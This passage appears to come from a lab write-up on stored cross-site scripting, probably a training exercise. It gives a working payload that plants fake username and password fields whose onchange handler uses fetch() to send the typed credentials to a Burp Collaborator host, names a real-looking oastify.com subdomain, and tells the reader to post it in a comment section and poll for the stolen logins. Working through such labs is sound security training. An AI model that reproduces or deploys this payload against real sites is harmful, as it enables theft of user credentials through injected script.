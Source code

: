 **Step2:**

To capture credential we use this payload
```

<input name=username id=username>

<input type=password name=password onchange="if(this.value.length)fetch('https://BURP-COLLABORATOR-SUBDOMAIN',{

method:'POST',

mode: 'no-cors',

body:username.value+':'+this.value

});">
```

Adding a collaborator subdomain

`nvmecfmg57gjkwlvw0dpyhker5xwlm9b.oastify.com`

**Step3:**

Submit it in comment section

<img src="images/image128.png" alt="third" width="500">

Now go to collaborator and click on poll now
